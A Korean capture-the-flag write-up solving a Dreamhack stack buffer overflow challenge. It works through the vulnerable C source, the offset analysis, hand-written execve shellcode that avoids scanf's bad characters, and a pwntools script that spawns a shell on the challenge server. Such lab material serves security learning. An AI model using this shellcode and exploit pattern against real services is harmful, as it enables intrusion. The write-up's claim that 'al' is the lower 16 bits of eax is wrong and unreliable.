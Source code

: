 ## 📍basic_exploitation_000

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

### 소스코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x80];
	
    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
	
    return 0;
}
```

30초가 지나면 `alarm_handler`를 호출하고 프로그램이 종료된다.

버퍼의 시작 주소를 출력한다.
버퍼의 크기는 0x80 = 128바이트이나, 최대 141바이트까지 입력을 허용한다.
즉 13바이트를 overwrite할 수 있다.

#### 풀이

문제에서 셸을 획득하라고 하는데, 셸을 실행할 수 있는 함수가 코드에 없기 때문에 셸코드를 사용해야 한다.

문제는 32bit 아키텍처를 사용하므로, 리턴 주소는 `ebp+0x4`가 될 것이다. (`0x4` = SFP의 크기)
`scanf` 함수의 버퍼 시작 주소와 `ebp+0x4` 사이의 거리를 알아낸다.

버퍼에는 셸코드부터, 남은 바이트는 더미 데이터로 채운다.
리턴 주소에는 앞서 입력한 셸코드의 주소가 들어가도록 해 함수가 리턴되면 셸코드가 실행되도록 한다.


### 바이너리 분석

![](Attachments/{AE179B09-E38A-4656-B42D-4A4B3AD02A5F}.png)

`scanf`에서 사용하는 버퍼의 시작 주소는 `ebp-0x80`이다.
따라서 `ebp-0x80`부터 `0x84`, 즉 132바이트만큼을 더미 데이터로 채우면 된다.


### 익스플로잇
#### scanf() 함수로 입력을 받는 경우 shellcode를 작성할 때 주의할 점
- 입력값은 버퍼에 저장되는데, `scanf()` 함수는 공백, 탭, 개행 3가지가 나오기 전까지 입력 버퍼에 있는 값을 가져오는 함수
	- 공백, 탭, 개행
		➡️ `0x09`(Horizontal Tab), `0x0A`(Line Feed), `0x0B`(Vertical Tab), `0x0C`(Form Feed), `0x0D`(Carriage Return), `0x20`(Space)
	- **문제**: 32bit 아키텍처에서 `execve()` 시스템 콜 값 = `0x0B`
		- `0x0B`는 아스키 코드에서 Vertical Tab이므로, `0x0B` 값 뒤에 있는 코드들은 무시됨
	- **해결**: 작성한 셸코드가 `scanf()` 함수로 입력받는 경우
		- `0x09`, `0x0A`, `0x0B`, `0x0C`, `0x0D`, `0x20` 값이 셸코드에 포함되지 않도록 작성해야 함

#### 32bit 아키텍처의 execve 셸코드
##### "/bin/sh" 문자열의 리틀 엔디안 값
- `/bin/sh` = `2F 62 69 6E 2F 73 68`
- 32bit 아키텍처이므로, 4바이트씩 나눠서 스택에 push한다.
- 1번째 블록: /sh = `68 73 2F`
- 2번째 블록: /bin = `6E 69 62 2F`

##### 셸 코드
```
section .text
global _start

_start:
	xor eax, eax
	push eax
	push 0x68732F       ; /sh
	push 0x6E69622F     ; /bin
	mov ebx, esp        ; ebx = "/bin/sh"
	xor ecx, ecx
	xor edx, edx
	mov al, 0x8
	inc al
	inc al
	inc al
	int 0x80
```
- `ebx`에 실행하고자 하는 바이너리의 경로를 적어준다.
- `ecx`, `edx`에는 각각 프로그램의 인자 포인터 배열과 환경변수 포인터 배열을 적는데, 지금은 `/bin/sh`만 실행하면 되므로 0으로 만든다.
- `eax`에 시스템 콜 번호를 넣어주는데, `0x0b`는 Vertical Tab이므로 바로 넣을 수 없고, `0x0a`, `0x09`도 넣을 수 없으므로, `0x08`에서 시작해서 1씩 증가시켜 `0x0b`를 만든다.
	- `al`: `eax` 레지스터의 하위 16비트
- `int 0x80`: 프로세스가 커널에 시스템 콜을 요청한다.

##### 바이너리 추출
1. `vi execve.asm`: 셸코드 작성 후 저장
2. `nasm -f elf execve.asm`: 오브젝트 파일 생성
3. `objdump -d execve.o`: 확인 ![](Attachments/{0319C5E3-7E77-4C27-B600-CCE13BB3B8FC}.png)
4. `objcopy --dump-section .text=shellcode.bin execve.o`: 바이너리 파일로 변환
5. `xxd -p shellcode.bin`: 바이너리에서 hexdump 값 뽑기![](Attachments/{F03271C2-D8C3-4E9C-8A40-3AFB4CACC9A3}.png)

위를 셸코드 형식으로 작성한다.

`\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

#### pwntools를 이용한 익스플로잇 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 8235)
p.recvuntil("buf = (")

buf_addr = int(p.recv(10), 16)

shellcode = b'\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80'
payload = shellcode + b'a'*(0x84 - len(shellcode)) + p32(buf_addr)

p.send(payload)
p.interactive()
```

![](Attachments/{5AB8D97B-7853-40AE-BDDF-E21425429BAF}.png)

30초 제한시간이 있다는 걸 까먹고 코드를 계속 고치면서 삽질했다...

🚩